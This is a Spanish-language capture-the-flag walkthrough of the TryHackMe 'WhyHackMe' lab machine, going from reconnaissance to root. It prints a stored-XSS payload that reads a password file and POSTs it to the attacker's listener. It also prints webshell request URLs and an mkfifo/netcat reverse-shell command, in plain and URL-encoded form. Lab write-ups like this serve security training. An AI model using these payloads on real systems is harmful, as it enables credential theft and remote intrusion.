# WhyHackMe

**Platform:** TryHackMe  
**Difficulty:** Medium  
**IP:** 10.10.90.191

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador del sistema Linux.
- **Herramientas iniciales:** `Nmap`, `FTP`, `Gobuster`, `XSS`, `Netcat`, `SSH`, `Iptables`,`Wireshark`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap -sC -sV -p- 10.10.90.191
```


Lo siguiente es acceder a ftp de forma anónima, ya que lo tenemos ejecutándose en el puerto 21 y éste acepta el usuario anonymous.

Dentro encontramos un fichero con una pista que usaremos el el sitio web.



Si añadimos el host al fichero /etc/hosts y entramos al sitio web, podemos ver que es un "blog" moy básico.

Indica que leas su primer artículo y luego puedes poner un comentario iniciando sesión pero no nos han dado ningunas credenciales por el momento, así que realizaremos un descubrimiento de directorios y ficheros con `gobuster`.



```bash
gobuster dir -u http://whyhackme.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,pdf,html,php
```



Ahora que sabemos qué rutas contiene el sitio web, vamos a ir a la página de registro y vamos a crearnos una cuenta de prueba.



En el cuadro donde se pueden escribir los comentarios, intentamos inyectar código para un ataque XSS pero no conseguimos nada porque la página traduce los símbolos.



En el resto del blog tan solo apreciamos dos campos, por lo que si en el comentario no podemos inyectar código, probams a escribir exactamente lo mismo pero en el nombre de la cuenta al crearla.



Escribimos un artículo y quedaría publicado con el script en el nombre, de esta manera hemos conseguido que el código se ejecute cada vez que alguien entra a ver los comentarios.

Ya solo queda buscar un script que obtenga el fichero que nos ha indicado antes la pista encontrada en FTP, convertirla a texto y luego enviarla por POST a un servidor Netcat que pongamos a la escucha.

```bash
<script>fetch("http://127.0.0.1/dir/pass.txt").then(x => x.text()).then(y => fetch("http://10.8.29.132:1234", {method: "POST", body:y}));</script>
```



Al entrar con una cuenta para ver los comentarios, el script se ejecuta y en el servidor recibimos el contenido del fichero.

Este contiene unas credenciales que podemos usar para acceder por SSH.



Obtenemos acceso al sistema con el usuario jack y en su mismo directorio personal nos encontramos la primera bandera.



Es hora de escalar privilegios, y como siempre hago antes de utilizar herramientas como linpeas es realizar un par de comandos básicos como `sudo -l` o algún find para buscar ficheros con permisos SUID.

Esta vez con el primero bastó, y nos encontramos con que el usuario jack puede ejecutar con permisos de sudo el fichero `iptables`.

```bash
sudo -l
```



Como no puede ser de otra manera, probamos a realizar el comando iptables y nos encontramos con que un puerto está denegando la conexión TCP por algún motivo.

```bash
sudo iptables -L
```



Por el momento dejamos un poco de lado lo anterior y seguimos buscando. No pasa mucho hasta que accedemos al directorio /opt y hayamos un fichero .pcap y un fichero con pistas que seguramente utilizaremos pronto.



Tenemos un problema, y es que cuando descargamos el fichero PCAP en la máquina local y  lo tratamos de abrir con Wireshark, este no es legible.

Esto es debido a que está encriptado con un certificado SSL, y necesitamos ese certificado para poder ver su contenido.

Buscando información, me topé con una web que indicaba que la ubicación del certificado SSL podría estar en el archivo de configuración de Apache.

Descargar fichero PCAP en la máquina local:
```bash
scp jack@whyhackme.thm:/opt/capture.pcap .
```

Abrir fichero de configuración de apache:
```bash
cat /etc/apache2/sites-available/000-default.conf
```


El fichero nos indica que el certificado está en `/etc/apache2/certs/apache.key`, de manera que lo descargaremos por scp y lo importaremos a Wireshark.

`Edit > Preferences > Protocols > TLS > RSA key list > Edit`



Ahora desde Wireshark podemos tratar de filtrar por el puerto que la máquina denegaba y por TCP.

`tcp.port == 41312 && http`

El resultado es un conjunto de peticiones, entre las que se repite una GET a lo que se intuye que es una Webshell. Habiendo importado el certificado en Wireshark, podremos utilizar nuestro navegador para acceder.

Tan solo tenemos que modificar Iptables para que acepte las peticiones TCP.



```bash
sudo iptables -D INPUT -p tcp --dport 41312 -j DROP

sudo iptables -A INPUT -p tcp --dport 41312 -j ACCEPT
```



Ya sí que podemos probar el acceso a la Webshell ya que el servidor nos permite el tráfico TCP al puerto donde se conecta. 

```bash
https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id`
```

Si copiamos el código de los atacantes, están pasándole `id` como parámetro a la Webshell.



Ahora vamos a buscar una reverse shell que nos lance una conexión a nuestro Netcat. Ya que las básicas no funcionan, tratamos de complicarlo un poco más:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.29.132 8888 >/tmp/f
```

Aún así, nada. Otra opción es utilizar la página URLencoder (https://www.urlencoder.org) para tratar de ofuscar un poco los símbolos y órdenes.

```bash
https://whyhackme.thm:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20ATTACKING_IP%209001%20%3E%2Ftmp%2Ff
```



Ponemos a escuchar nuestro Netcat en el mismo puerto y listo. Obtenemos una Shell del usuario www-data. La sorpresa es cuando al ejecutar `sudo -l` la respuesta es la siguiente: (ALL : ALL) NOPASSWD: ALL.



Teniendo en cuenta sus permisos, con un simple `sudo su` accedemos a la cuenta de administrador y con ella a la segunda bandera.




